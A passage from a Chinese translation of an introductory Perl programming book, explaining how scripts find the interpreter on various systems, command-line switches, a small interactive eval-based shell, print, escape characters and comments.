复合语句由*表达式*和*代码块*组成。在 Perl 中，代码块由花括号 `{` 和 `}` 分隔，可以包含多个简单语句。代码块也有自己的作用域（项目如变量的作用域表示你可以在程序的哪个位置使用该变量，我们稍后会详细讨论），并且你不会在花括号后面放置分号。在下面的例子中，我们使用一个代码块来创建一个复合的 **for** 循环语句，这是 Perl 循环中最基本的形式（关于 **for** 循环和其他类型的循环的更多细节，请参见第 5 章）：

```
for ($loop_index = 1; $loop_index <=5; $loop_index++) {
    print "Hello";
    print "there!\n";
}
```

如果你将前面任一脚本输入到一个文件中，例如 `hello.pl`，那么你就创建了一个 Perl 脚本。下一步是确保你可以将该脚本与 Perl 解释器连接起来，使脚本得以运行。

# 编写代码：查找 Perl 解释器

大老板仍然俯视着你，你在工作站上输入代码。你已经编写了你的前几行 Perl 脚本。老板印象非常深刻。但是，你如何确保这个脚本能找到 Perl 解释器呢？老板在等待。

## 显式查找 Perl

你可以通过命令行显式地将脚本传递给 Perl 解释器 `perl` 来找到 Perl，如下所示：

```
%perl hello.pl
```

使用此示例成功的前提是，Perl 已正确安装在你的机器上，这意味着它在你的命令路径中。如果不在，你将不得不像这样在 MS-DOS 中使用 Perl 可执行文件的完整路径：

```
d:\>c:\perl\bin\perl hello.pl
```

我不建议这样做；我建议你将 Perl 添加到你的路径中（如果还没有的话，如前所述，如果 Perl 安装正确，它应该已经在路径中了）。

另一方面，你的脚本没有必要在你的路径中；如果你愿意，你可以使用 **-S** 开关让 Perl 在你的路径中搜索脚本，如下所示：

```
%perl -S hello.pl
```

## 隐式查找 Perl

除了显式地将脚本传递给 Perl，你也可以让你的脚本自己找到 Perl——这意味着你可以像运行独立命令一样运行你的脚本：

```
%hello.pl
```

或者，如果你命名的 Perl 脚本文件没有扩展名，你可以这样运行脚本：

```
%hello
```

前面的例子看起来更像一个系统命令，这正是其目的。你也可以像传递系统命令参数一样，向 Perl 脚本传递参数，如下所示：

```
%hello hello there!
```


> **注意：** 你将在第3章中看到如何处理通过命令行传递给Perl脚本的参数。Perl最大的用途之一就是创建那些看起来像独立Shell命令的脚本，而实际上它们只是将多个真正的Shell命令粘合在一起。

确保你的脚本能够自行找到Perl的方法因操作系统而异，因此我们将在此处探讨主要的可能性。

## Unix

你可以通过将以下行作为文件的第一行，让Unix知道你的文件是Perl脚本（请记住，如果你像前面那样显式调用Perl解释器，则不需要这一行）：

```
#!/usr/local/bin/perl          # Use Perl
```

如果你使用这种方法，这一行必须使用特殊的 **#!** 语法，并且必须是脚本的第一行。此行指的是大多数Unix系统上Perl的标准位置；请注意，Perl在你的机器上可能位于不同的位置，例如 `/usr/bin/perl`（同时请注意，在许多机器上，路径 `/usr/bin/perl` 和 `/usr/local/bin/perl` 是别名，指向同一位置）。

要指定你要使用Perl 5，在许多系统上你可能需要使用这一行：

```
#!/usr/local/bin/perl5          # Use Perl 5
```

我还建议你使用 **-w** 开关（参见本章后面的“运行代码：使用命令行开关”主题），以确保Perl在解释代码时显示警告。（实际上，Perl解释器在首次加载代码时就会检查，因此除非你稍后特意加载代码（可以使用 **require** 等语句），否则你会立即收到警告。）

```
#!/usr/local/bin/perl -w  # Use Perl with warnings
```

由于许多Unix操作系统会在32个字符后截断 **#!** 行，如果你的Perl路径很长，可能会出现问题：

```
#!/usr/local/bin/users/standard/build36/perl5 # Use Perl 5
```

在这种情况下，或者如果你的系统不支持 **#!** 术语，你可以使用 **sh** 等shell来运行Perl，如下所示：

```
#!/usr/bin/sh
eval '/usr/local/bin/users/standard/build36/perl5
-wS $0 ${1+"$@"}' if 0;
```

这里，我使用shell的 **eval** 命令显式运行Perl，并使用Perl的 **-w** 开关来启用警告。**$0** 参数应包含完整的路径名，但有时不包含，因此我使用 **-S** 开关来告诉Perl在必要时搜索脚本。看起来奇怪的结构 **${1+"$@"}** 用于处理文件名中嵌入空格的情况。请注意，这一整行运行Perl脚本但不返回值，因为 **if 0** 修饰符永远不会为真。

## MS-DOS

在MS-DOS中，你可以通过使用 pl2bat.bat 实用程序将脚本转换为BAT批处理文件，来确保你的脚本知道在哪里找到Perl。此实用程序随ActiveState的Perl移植版一起提供。例如，如果你有这个 hello.pl Perl脚本：

```
print "Hello!\n";

print "Press <Enter> to continue...";
<STDIN>;
```

那么你可以使用 pl2bat.bat 将其转换为BAT文件 hello.bat，然后你可以直接从命令行运行它。你可以像这样将 hello.pl 转换为 hello.bat：

```
C:\>pl2bat hello.pl
```

生成的批处理文件 hello.bat 如下所示：

```
@rem = '--*-Perl-*--
@echo off
if "%OS%" == "Windows_NT" goto WinNT
perl -x -S "%0" %1 %2 %3 %4 %5 %6 %7 %8 %9
goto endofperl
:WinNT
perl -x -S "%0" %*
if NOT "%COMSPEC%" == "%SystemRoot%\system32\cmd.exe" goto endofperl
if %errorlevel% == 9009 echo You do not have Perl in your PATH.
if errorlevel 1 goto script_failed_so_exit_with_non_zero_val 2>nul
goto endofperl
@rem ';
#!perl
#line 15
print "Hello!\n";

print "Press <Enter> to continue...";
<STDIN>;

__END__
:endofperl
```

与其执行此步骤，你可能会发现在MS-DOS中显式地将脚本传递给Perl更合你意，尤其是在开发期间（或者甚至创建一个包含以下命令的BAT文件）：

```
c:\perl hello.pl
```

## Windows 95/98 和 Windows NT/2000

用于Windows 95/98 和 Windows NT/2000 的 ActiveWare Perl移植版非常方便，因为它修改了Windows注册表，自动将.pl扩展名与perl解释器关联起来。

你只需双击Perl脚本即可运行它。然而，当你这样做时，脚本会打开一个MS-DOS窗口，运行，然后立即关闭该窗口。请参阅主题“基本技能：避免Windows中脚本立即关闭”以解决此问题。

## Macintosh

Macintosh Perl脚本自动具有适当的Creator和Type，因此双击它们将调用MacPerl（如果已正确安装）。

以上就是你需要了解的关于将脚本连接到Perl解释器的所有内容，但我们应该再看一个考虑因素——确保Perl可以找到你可能使用的任何模块。

## 编写代码：查找Perl模块

多年来，Perl已经通过许多 *模块* 进行了扩展，这些模块包含预编写的代码，可以处理从在屏幕上定位光标到编写HTML的各种任务。在本书的前半部分，你不需要了解模块，因为我们将探索Perl本身的核心，但当我们开始处理程序员编写的数千行代码以增强Perl时，它们将变得重要。

Perl本身附带的许多模块称为 *标准模块*。还有数百个模块可从CPAN获取。如果它们安装正确，当你使用 **use** 和 **require** 等语句在代码中包含它们时，Perl会自动找到它们。Perl通过检查变量 **@INC** 来查找这些模块，该变量是一个包含Perl将搜索模块的路径的数组。在此示例中，我使用 -e 开关直接执行Perl代码以显示 **@INC** 中的当前路径：

```
%perl -e 'print "@INC";'
```

```
/usr/local/lib/perl5/sun4-sunos/5.6.1 /usr/local/lib/perl5
/usr/local/lib/perl5/site_perl/sun4-sunos
/usr/local/lib/perl5/site_perl .
```

在MS-DOS中，输入 **perl -e "print @INC"**。如果你想将一个新目录添加到 **@INC**，你可以像这样使用 **-I** 开关：

```
%perl hello.pl -I/usr/local/lib/modules
```

你将在第15章中看到更多这种用法，所以在你开始使用模块之前，不必担心它。同时，是时候实际运行你的脚本了。

| 相关解决方案： | 找到于页： |
| --- | --- |
| 安装模块 | 600 |

## 运行代码

你已经完成了Perl脚本的编写，而大老板还在盯着你的肩膀看。公司的未来取决于你的新脚本。关键时刻到了：你如何让脚本运行起来？

例如，假设你有一个名为 hello.pl 的短文件，其中包含以下Perl脚本：

```
#!/usr/local/bin/perl -w   #Use Perl with warnings

print "hello\n";
```

让这样的脚本运行起来是Perl的一个基本步骤。由于存在许多变体，我们将详细探讨它们。

### 如果你的脚本能找到Perl

如果你的脚本能找到Perl，你可以轻松运行该脚本。在Unix中，这意味着你已将类似以下的行作为脚本的第一行包含：

```
#!/usr/local/bin/perl -w
```

在Unix中，你使用 **chmod** 将脚本设为可执行文件，如下所示：

```
chmod +x hello.pl
```

同时，确保脚本在你的路径中（例如，检查你的登录文件并查找 set path 命令）。然后，你可以在命令行像这样运行脚本：

```
%hello.pl
```

在Windows和Macintosh上，只需双击脚本文件即可运行它（确保在Windows中你已为脚本文件赋予扩展名.pl，这是ActiveState软件连接到Perl解释器的扩展名）。

在MS-DOS中，在你使用 pl2bat.bat 批处理文件将脚本转换为BAT文件之后，只需在DOS提示符下像这样运行BAT文件：

```
C:\>hello
```

### 如果你想从命令行使用Perl

要显式使用Perl解释器运行脚本，请确保 **perl** 在你的路径中，并使用 **perl** 命令，其通用形式如下（方括号 `[]` 中的开关是可选的；请参阅主题“运行代码：使用命令行开关”以了解所有这些开关的含义）：

```
perl       [ -CsTuUWX ]
   [ -hv ] [ -V[:configvar] ]
   [ -cw ] [ -d[:debugger] ] [ -D[number/list] ]
   [ -pna ] [ -Fpattern ] [ -l[octal] ] [ -0[octal] ] [ -Idir ] [ -m[-]module ] [ -M[-]'module...' ]
   [ -P ]
   [ -S ]
   [ -x[dir] ]
   [ -i[extension] ]
   [ -e 'command' ] [ -- ] [ programfile ] [ argument ]...
```

当你以这种方式使用 **perl** 命令时，Perl会在以下位置之一查找你的脚本：

- 使用命令行上的 **-e** 开关逐行读取
- 在命令行上给出的第一个文件名指定的文件中读取
- 如果你为脚本名指定一个连字符 (-)，则通过标准输入逐行传递

我们将在此处逐一查看这些方法。

使用 **-e** 开关，你可以将代码逐行直接传递给Perl（在某些系统上，你可以使用多个 **-e** 开关来传递多行代码），如下所示（在Unix中）：

## 第1章  Essential Perl

```perl
%perl -e 'print "Hello!\n";'
```

*Hello!*

然而，请注意在某些系统上你必须小心使用哪种类型的引号。你可以在 MS-DOS 上执行相同的行，如下所示（注意我们将要打印的字符串中的双引号替换为转义引号 `\"`；请参阅本章后面的"基本技能：文本格式化"主题）：

```
c:\>perl -e "print \"Hello!\n\";"
```

*Hello!*

当然，你也可以将脚本放在一个文件中，然后将该文件名传递给 Perl 解释器。例如，如果文件 `hello.pl` 的内容如下（注意我省略了 `#!` 行，因为我在显式运行 Perl 解释器，所以不需要它），

```perl
print "Hello!\n";
```

那么你可以这样运行该脚本，指定文件名：

```
%perl hello.pl
```

*Hello!*

如果你使用连字符（`-`）作为脚本名称（这是默认值，即使你省略连字符而只输入 `perl`），你也可以输入多行脚本：

```
%perl -
```

在这种情况下，Perl 会等待你输入完整的脚本：

```
%perl -
print "Hello!\n";
```

你如何指示 Perl 执行该脚本？你输入 `__END__` 标记（`END` 两侧各有两个下划线），如下所示：

```
%perl -
print "Hello!\n";
__END__
```

*Hello!*

注意，只有使用这种方法，你才能一次性执行整个脚本。出于测试目的，你可能希望逐条交互式地运行语句。为此，你可以开发一个 Perl 迷你 shell——即一个交互式环境——我将在本章后面这样做。

## 运行代码：使用命令行开关

当你使用 `perl` 命令时，可以使用数量惊人的开关（方括号 `[` 和 `]` 表示开关是可选的）：

```
perl       [ -CsTuWX ]
    [ -hv ] [ -V[:configvar] ]
    [ -cw ] [ -d[:debugger] ] [ -D[number/list] ]
    [ -pna ] [ -Fpattern ] [ -l[octal] ] [ -0[octal] ]
    [ -Idir ] [ -m[-]module ] [ -M[-]'module...' ]
    [ -P ]
    [ -S ]
    [ -x[dir] ]
    [ -i[extension] ]
    [ -e 'command' ] [ -- ] [ programfile ] [ argument ]...
```

所有这些开关都是做什么的呢？下面是逐一说明（注意，当然，其中许多开关涉及的主题我们只能在后面的章节中看到）：

- **`-0[digits]`**——指定输入记录分隔符（也保存在 Perl 特殊变量 `$/` 中）为八进制数。
- **`-a`**——与 `-n` 或 `-p` 一起使用时开启*自动分割*模式。该模式将输入行分割（即分离成单词），并将它们放入名为 `@F` 的特殊数组中。
- **`-c`**——使 Perl 检查脚本的语法，然后退出（不执行脚本）。
- **`-C`**——使 Perl 在目标系统上使用原生宽字符 API。
- **`-d`**——在 Perl 调试器下运行脚本。有关更多详细信息，请参阅 CD-ROM 上的第 *e2* 章。
- **`-d:name`**——在调试或跟踪模块 `Devel::name` 的控制下运行脚本。有关更多详细信息，请参阅 CD-ROM 上的第 *e2* 章。
- **`-Dletters`** 和 **`-Dnumber`**——设置调试标志。要观察 Perl 如何执行你的程序，请使用 `-Dtls`。（仅当调试功能编译到你的 Perl 版本中时有效。）你可以使用 `-Dx` 列出编译后的语法树。而 `-Dr` 显示编译后的正则表达式。或者，你可以指定一个数字而不是字母列表（例如，`-D14` 等同于 `-Dtls`），如下所示：
    - **1** 或 **p**——词法分析和解析
    - **2** 或 **s**——堆栈快照
    - **4** 或 **l**——上下文（循环）堆栈处理
    - **8** 或 **t**——执行跟踪
    - **16** 或 **o**——方法和重载解析
    - **32** 或 **c**——字符串/数字转换
    - **64** 或 **P**——为 `-P` 打印预处理器命令
    - **128** 或 **m**——内存分配
    - **256** 或 **f**——格式处理
    - **512** 或 **r**——正则表达式解析和执行
    - **1024** 或 **x**——语法树转储
    - **2048** 或 **u**——污染检查
    - **4096** 或 **L**——内存泄漏（编译 Perl 时需要 `-DLEAKTEST`）
    - **8192** 或 **H**——哈希转储；取代 `values()`
    - **16384** 或 **X**——便签簿分配
    - **32768** 或 **D**——清理
    - **65536** 或 **S**——线程同步

    所有这些标志都要求你在编译 Perl 可执行文件时使用 `-DDEBUGGING`（这不是默认设置）。

- **`-e commandline`**——可用于输入要执行的一行脚本。在某些系统上，你可以使用多个 `-e` 命令来构建多行脚本。
- **`-Fpattern`**——如果 `-a` 也生效，则指定用于分割的模式。
- **`-h`**——打印选项摘要。
- **`-i[extension]`**——指定由 `<>` 结构处理的文件（请参阅本章后面的"基本技能：读取键入输入"主题）通过重命名输入文件、用原始名称打开输出文件，并将该输出文件用作 print 语句的默认值来进行*原地*编辑。
- **`-Idirectory`**——使 Perl 在*目录*中搜索模块。
- **`-l[octnum]`**——添加行尾处理。此开关与 `-n` 或 `-p` 开关一起使用时，自动从输入中移除 `$/`（一个保存输入记录分隔符的特殊 Perl 变量，默认为换行符），并将 `$\`（输出记录分隔符）设置为 *octnum*，以便 print 语句使用该分隔符。
- **`-m[-]module`** 或 **`-M[-]module`** 或 **`-M[-]'module ...'`** 或 **`-[mM][-module=arg[,arg] ...`**——在执行脚本之前，使用 `use module` 语句将指定的模块包含到你的脚本中。
- **`-n`**——使 Perl 在你的脚本周围使用 `while (<>)` 循环（有关 `<>` 结构的更多详细信息，请参阅本章后面的"基本技能：读取键入输入"主题）。例如，以下行打印名为 `file.txt` 的文件内容：

    ```perl
    perl -ne "print;" file.txt
    ```

- **`-p`**——使 Perl 在你的脚本周围添加此循环：

    ```perl
    while (<>) {
        .
        [your script here]
        .
    } continue {
        print or die "-p destination: $!\n";
    }
    ```

- **`-P`**——在 Perl 编译之前通过 C 预处理器运行你的脚本。
- **`-s`**——允许解析命令行上的开关。例如，如果使用 `-www` 开关调用此脚本，该脚本将打印"**Found the switch\n**"：

    ```perl
    #!/usr/local/bin/perl5 -s
    if ($www) {print "Found the switch\n";}
    ```

- **`-S`**——使 Perl 使用 `PATH` 环境变量来搜索脚本。
- **`-T`**——强制开启污染检查（数据安全检查）；这通常在 CGI 程序中完成。
- **`-u`**——导致 Perl 在编译你的脚本后转储核心。
- **`-U`**——允许 Perl 执行*不安全*的操作，例如删除目录。
- **`-v`**——打印 Perl 版本和补丁级别。
- **`-V`**——打印 Perl 配置值的摘要。
- **`-V:name`**——打印命名配置变量的值。
- **`-w`**——打印警告（请参阅下一个主题）。
- **`-W`**——启用所有警告，无论 `no warnings` 或 `$^W` 的状态如何。
- **`-x directory`**——告诉 Perl 脚本嵌入在消息中。文本将不会被处理，直到第一个以 `#!` 开头并包含字符串"perl"的行。
- **`-X`**——禁用所有警告，无论 `use warnings` 或 `$^W` 的状态如何。
- **`--`**——是可选的，表示你要使用的开关的结束。

在接下来的几个主题中，我们将更详细地介绍其中一些更流行的开关。

## 运行代码：使用 -w 开关获取警告

优秀代码设计委员会打来电话。"委员会成员执行你的脚本时收到的那些警告是怎么回事？""警告？"你问道。你从未见过这种东西。"试试 `-w` 开关，"他们说，"你不应该在不使用它的情况下公开发布任何脚本。"

在使用 Perl 时，使用 `-w` 开关总是一个好主意，许多 Perl 风格专家对此非常狂热。我也推荐使用它，因为这是一种极其有用的方式，可以检测你可能需要使用调试器（和大量时间）才能发现的问题。Perl 在运行你的脚本时确实会生成警告，但——与其他语言（如大多数 C 和 C++ 实现）不同——你必须特别要求才能看到它们。警告表明你正在做某些可能产生意外后果的事情。除了警告之外，如果你的脚本有更严重的问题，Perl 解释器还可以生成错误；与警告不同，错误可以阻止你的脚本运行。注意，如果发生的是错误而不是警告，你一定会看到它。Perl 对于它认为是真正错误的问题并不羞于展示。

`-w` 开关会警告许多潜在问题，包括以下内容：

- 以只读方式打开的文件句柄，你试图向其写入
- 重新定义的子程序
- 引用未定义的文件句柄
- 标量变量（即简单变量）在设置之前就被使用
- 递归使用超过 100 层的子程序
- 当作标量变量使用的数组
- 用作数字但看起来不像数字的值
- 只提及一次的变量名

考虑以下示例。在这种情况下，我将使用这段代码，试图将值 1 加到存储在变量 `$text` 中的文本 `"hello"` 上（你将在下一章中找到有关变量的更多详细信息）：


## 运行代码：使用 -e 开关从命令行执行代码

人们对你的专业能力深感钦佩，纷纷打电话请你检查他们的 Perl 脚本。你需要一种快速检查 Perl 语法的方法。难道除了把所有代码都输入文件再运行 Perl 之外，就没有更简单的方法吗？

有。其中最受欢迎的命令行开关之一就是 **-e**，它允许你直接在命令行输入代码。使用这个开关是测试代码行特别有用的方法。我们已经见过几个 **-e** 实际使用的例子；下面是我们打印 **@INC** 值的方法：

```
%perl -e 'print "@INC";'
```

> /usr/local/lib/perl5/sun4-su_inode/5.6.1 /usr/local/lib/perl5
/usr/local/lib/perl5/site_perl/sun4-sunos
/usr/local/lib/perl5/site_perl .

在某些系统上，你还可以使用多个 **-e** 命令来执行多行代码（解释器将每个 **-e** 命令视为单独的一行代码）：

```
%perl -e 'print "Hello ";' -e 'print "there";'
```

> Hello there

你可以这样构建整个脚本，并且变量会在行与行之间保持记忆，如下所示（变量的更多细节将在下一章介绍）：

```
%perl -e '$text = "Hello there";' -e 'print $text;'
```

> Hello there

注意，你也可以使用单个 **-e** 命令执行多条语句。只需用分号将它们分隔开即可：

```
%perl -e 'print "Hello "; print "there";'
```

> Hello there

在前面的两个例子中，我先把要打印的字符串用双引号括起来，再传给 **print** 函数。这样做是为了让 Perl 能够正确解析要执行的语句；例如，下面的语句行不通，因为 Perl 在遇到第二个单引号时就认为语句已经结束：

```
%perl -e 'print 'Hello!';'
```

然而，某些系统（如 MS-DOS）在命令行传递双引号时会以一种特殊的方式处理。例如，在 MS-DOS 中，你会看到如下消息：

```
c:\>perl -e 'print "Hello there";'
```

> Can't find string terminator """ anywhere before EOF at -e line 1.

在这里，Perl 甚至根本没看到第一个双引号之后的内容。要解决这个问题，你可以全部使用双引号，并在语句中用反斜杠（\）对双引号进行*转义*：

```
c:\>perl -e "print \"Hello there\";"
```

> Hello there

## 运行代码：使用 -c 开关检查语法

你编写了一个出色的新 Perl 脚本来发射导弹，并且想检查它的语法。然而，你不太愿意运行实际代码，因为此刻并不需要发射任何导弹。那么如何在检查代码的同时不真正执行它呢？

你可以在 Perl 解释器中使用 -c 开关，让 Perl 解析你的程序但不执行它。事实上，解析代码并检查语法是 Perl 解释器在任何情况下都会首先做的事；-c 开关确保过程到此为止，不再继续执行代码。

当你用 -c 开关测试脚本且语法正确时，你会看到如下信息：

```
%perl -c firemissles.pl

firemissles.pl syntax OK
```

正如我们将会看到的，这个开关在开发 CGI 脚本时尤为重要，因为 Web 服务器对错误不会给出太多反馈。

## 运行代码：交互式执行

-e 开关还可以，但现在编程团队协调员在加快进度，你想要一种更简单、更快检查代码的方法。把单引号和双引号分得清清楚楚已经让你抓狂。现在编程团队协调员又在问你进度如何；你需要一个交互式的 Perl 环境。有这样的环境吗？

严格来说没有（除非你把 Perl 调试器也算上），但你可以自己写一个。这样的 Perl 环境允许你交互式地执行 Perl 语句，输入一条就执行一条，从而立即看到结果。仔细想想，这样的环境实际上就是一个 Perl shell。我写了下面这个简短的可运行示例来帮助你入门（这段代码中的所有语句都会在本书中讲到）：

```
#!/usr/bin/perl -w  # Use Perl with warnings
my $count = 0;      # $count used to match {}, (), etc.
my $statement = ""; # $statement holds multiline statements
local $SIG{__WARN__} = sub {}; # Suppress error reporting

while (<>) {         # Accept input from the keyboard

    chomp;           # Clean up input
    while (/{|\(|\[/g) {$count++};   # Watch for {, (, etc.
    while (/}|\)|\]/g) {$count--};   # Pair with }, ), etc.

    $statement .= $_ . " ";   # Append input to current statement

    if (!$count) {      # Only evaluate if {,( matches },) etc.

        eval $statement; # Evaluate the Perl statement
        if($@) {print "Syntax error.\n"};  # Notify of error
        $statement = ""; # Clear the current statement
        $count = 0       # Clear the multi-line {,( etc. count

    }
}
```

这段脚本创建了一个简单的 Perl shell，可以处理多条语句——甚至跨越多行的复合语句。它使用 Perl 的 **eval** 函数来工作，该函数会对你传给它的 Perl 语句进行求值。它甚至能处理多行语句——在 Perl 中称为*代码块*——这些语句用花括号 **{** 和 **}** 界定，这一点我们很快会讲到。这个 shell 通过监视开括号（**{** 和 **[**）并与闭括号（**}** 和 **]**）匹配来找到代码块，从而知道复合语句何时完整。方括号 **[** 和 **]** 用于创建数组。

要使用这个 shell，只需把你的代码用花括号 **{** 和 **}** 括起来。当你输入最后一个右花括号时，shell 就知道你的语句已经完成，于是执行它；然后等待你的下一条语句。这样，你就可以在自己的 Perl shell 中交互式地输入一条又一条语句。

来看这个例子。首先，你可以运行 shell；运行后，它会等待你的输入，如下所示：

```
%perl shell.pl
```

你可以先用一个左花括号开始要检查的代码，然后输入一个变量赋值（变量的更多细节将在下一章介绍）——注意，这里的缩进是我手动输入的，shell 不会自动缩进：

```
%perl shell.pl
{
    $text = "Hello";
```

然后你可以这样打印该变量的值：

```
%perl shell.pl
{
    $text = "Hello";
    print $text;
```

当你输入结束该代码块的右花括号时，结果会立即显示出来：

```
%perl shell.pl
{
    $text = "Hello";
    print $text;
}

Hello
```

执行完你的代码后，shell 会清空并等待你的下一条语句，因此你可以继续随意输入更多代码，就像一个真正的 Perl shell 一样：

```
%perl shell.pl
{
    $text = "Hello";
    print $text;
}

Hello

{
    $text2 = "Hello there";
    print $text2;
}

Hello there
```

让我再举一个例子；这次你可以使用两个变量：

```
%perl shell.pl
{
    $text1 = "Hello ";
    $text2 = "there";
    print $text1, $text2;
}
```

*Hello there*

你也可以输入像这样的复合语句，其中执行了一个跨越多行的 **for** 循环。注意，**for** 循环本身也使用了花括号，这对 shell 来说没有问题；你可以随心所欲地嵌套它们：

```
%perl shell.pl
{
    for ($loop_index = 1; $loop_index <=5; $loop_index++) {
        print "Hello\n";
    }
}
```

*Hello*
*Hello*
*Hello*
*Hello*
*Hello*

要退出 shell，请输入 "exit"（或直接按 Ctrl+C）。

像这样的自定义 Perl shell 在测试短小的脚本时非常有用，省得把脚本放入文件再从文件运行。

> **注意：** *这个 shell 只是一个示例，它绝不是完整的 Perl shell。例如，如果你测试的脚本本身使用了 **eval** 函数，就可能会出问题，因为这个 shell 本身也是使用 **eval** 来执行脚本的。*

## 基本技能：文本输入与输出

到目前为止，本章已经介绍了让 Perl 运行起来、编写脚本以及运行这些脚本的基本知识。在进入下一章并详细学习 Perl 语法之前，我们将回顾一些基本技能。这些技能（例如处理基本文本输入）对于创建可用的 Perl 脚本是必不可少的。因此，在集中精力学习 Perl 语法——比如下一章如何操作数据——之前，我们现在就来学习这些基本技能。

Perl 将输入和输出视为*通道*，并通过*文件句柄*来操作这些通道。文件句柄对 Perl 来说只是一个代表文件的值，当你打开一个文件时，就会获得该文件的文件句柄。

你可以使用三个预定义的文件句柄来处理文本：**STDIN**、**STDOUT** 和 **STDERR**。**STDIN** 是脚本的正常输入通道，**STDOUT** 是正常输出通道，而 **STDERR** 是错误的正常输出通道。默认情况下，这些文件句柄对应于终端。我们将在本章中使用预定义的文件句柄——就像下一个主题中，我们将使用 **STDIN** 来显示文本。

## 基本技巧：使用 print 函数

编程团队协调员对你新脚本感到非常满意，它能无休止地处理数据并进行无尽的数据处理。脚本终于结束了，你得意洋洋地转向 PTC。“但是，输出在哪里？” PTC 问道。你说：“输出？”“试试 **print** 函数，” PTC 说。

要将文本打印到文件，包括 **STDOUT**，你需要使用 **print** 函数（我们将在第 13 章更详细地介绍文件操作，在第 12 章更多地介绍 **print** 函数），它可能是 Perl 中最常用的函数。我们在本章中已经多次看到 **print** 函数，但这里我们将更系统地研究它。**print** 函数有以下形式：

```
print FILEHANDLE LIST
print LIST
print
```

如果你没有指定文件句柄，将使用 **STDOUT**。如果你没有指定要打印的项目列表（注意，这样的列表可能只包含一个项目），**print** 函数会将特殊 Perl 变量 **$_** 中的内容打印到输出通道。**$_** 变量是保存来自输入通道输入的默认变量（有关更多信息，请参阅主题“基本技巧：使用默认变量 **$_**”）。

在这个例子中，你只是将“**Hello!**”和换行符打印到输出通道：

```
print "Hello!\n";
```

*Hello!*

**print** 函数实际上是一个列表函数，它接受一个项目列表（我们将在下一章介绍 Perl 列表）。这意味着你可以像这样传递一个 *项目列表* 来打印，其中你用逗号分隔列表项：

```
print "Hello ", "there!\n";
```

*Hello there!*

请注意，在 Perl 中打印文本时也可以变得非常花哨，因为你可以使用 Perl 格式化和格式化的 **print** 函数 **printf** 等等，我们将在第 12 章看到更多。

如果你想打印一个字符串多次，你可以使用 Perl 的 **x** 重复运算符，如下所示：

```
print "Hello!\n" x 10;
```

```
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
```

或者，如果你想画一条由连字符组成的水平线，可以这样打印：

```
print "-" x 30
```

```
------------------------------
```

我们将在第 4 章介绍运算符时看到更多关于重复运算符的内容。

你可以使用三个特殊标记，它们在从代码打印时很有用。你通过引用 **__LINE__** 标记来显示 Perl 脚本中的当前执行行，使用 **__FILE__** 标记获取当前文件的名称，使用 **__PACKAGE__** 获取当前 Perl 包的名称。例如，在这个单行脚本中，你可以看到当前行是第 1 行，如下所示：

```
%perl -e "print __LINE__;"
```

```
1
```

| 相关解决方案： | 所在页： |
|---|---|
| 什么是列表？ | 76 |
| 处理模数和重复： % 和 x | 154 |
| **print** 打印列表数据 | 526 |
| **printf** 打印格式化的列表数据 | 527 |

## 基本技巧：文本格式化

你终于让脚本打印出一些数据，编程团队协调员非常满意。但是，PTC 希望数据以表格形式显示，因此你需要打印制表符。“嗯，”你说，“我该怎么打印制表符？”

你可以使用 *转义字符* 来执行一些基本的文本格式化。转义字符是一个前面带有反斜杠（\）的特殊字符。它向处理文本字符串的函数（如 **print**）表明该转义字符是一个应特殊解释的特殊字符。表 1.1 显示了一些转义字符及其含义。

例如，你可以如下所示在打印的字符串中显示双引号：

```
print "\"Hello!\"\n";
```

> “Hello!”

以及，这是如何使用制表符的方法：

```
print "Hello\tfrom\tPerl.\n";
```

*Hello*    *from*    *Perl.*

### 表 1.1 转义字符。

| 转义字符 | 含义 |
|---|---|
| \" | 双引号 |
| \t | 制表符 |
| \n | 换行符 |
| \r | 回车符 |
| \f | 换页符 |
| \b | 退格符 |
| \a | 响铃（铃声） |
| \e | 转义符 |
| \033 | 八进制字符 |
| \x1b | 十六进制字符 |
| \c[ | 控制字符 |

这是如何使用 **\n** 换行符创建多行输出的方法：

```
print "Hello\nfrom\nPerl.\n";
```

```
Hello
from
Perl.
```

请记住，这只是基本的文本格式化，可以实现更复杂的格式化。事实上，如果你想创建格式化的输出，请务必查看第 8 章，我在其中介绍了 Perl 格式化；Perl 最初是专门编写的，用于创建报告，它具有许多内置功能来实现这一点。

| 相关解决方案： | 所在页： |
|---|---|
| **sprintf** 格式化字符串 | 493 |
| **printf** 打印格式化的列表数据 | 527 |

## 基本技巧：为代码添加注释

你的新脚本非常受欢迎，总部已经将其分发给所有办事处。但是，现在你接到各种电话和电子邮件，询问第 14 行是做什么的，你是否真的想在第 28 行那样做，第 42 行是否真的是合法代码，以及第 56 行——那肯定是错误的？当你疲惫地挂断电话时，你想知道是否可以找到一种更好的方式来让其他程序员了解你的程序是如何工作的。是的，你可以——你可以为代码添加注释。

当你创建复杂的脚本时，你可能想要添加注释——即 Perl 会忽略的提醒或解释性文本——以使这些脚本的结构和工作原理更容易理解。在 Perl 中，你在注释前加上 **#**，因为 Perl 会忽略一行中 **#** 符号之后的所有文本。在这里，你可以看到我如何在之前看到的 Perl shell 中添加注释，使其对程序员更清晰：

```
#!/usr/bin/perl -w  # 带警告使用 Perl
my $count = 0;       # $count 用于匹配 {}, (), 等。
my $statement = "";  # $statement 保存多行语句
local $SIG{__WARN__} = sub {}; # 抑制错误报告

while (<>) {         # 从键盘接受输入
chomp;		# 清理输入
while (/\{|\(|\[/g) {$count++};	# 监视 {, (, 等。
while (/\}|\)|\]/g) {$count--};	# 与 }, ), 等配对

$statement .= $_ . " ";	# 将输入附加到当前语句

if (!$count) {		# 仅在 {, ( 与 }, ) 等匹配时求值

	eval $statement; # 求值 Perl 语句
	if($@) {print "Syntax error.\n"};	# 通知错误
	$statement = "";	# 清除当前语句
	$count = 0		# 清除多行 {, ( 等计数

}
}
```

注释可以帮助日后阅读你代码的程序员了解发生了什么。请记住，你帮助的程序员可能是你自己。

> 注意：查看第 8 章中的“普通旧文档”材料。POD 让你可以轻松地从代码中提取文档。

| 相关解决方案： | 所在页： |
|---|---|
| POD：普通旧文档 | 365 |

## 基本技巧：读取类型化输入

嗯，你的新 Perl 计算器非常成功：每次它都计算 7 + 7 并打印 14。老板对此非常满意。“让我试试，” BB 说，“输入要相加的数字怎么操作？”“输入它们？”你问，“你不能那样做；计算器只加 7 + 7，仅此而已。”“不好，” BB 说，“你必须让用户输入他们自己的数字来相加。”那么，你该怎么做呢？

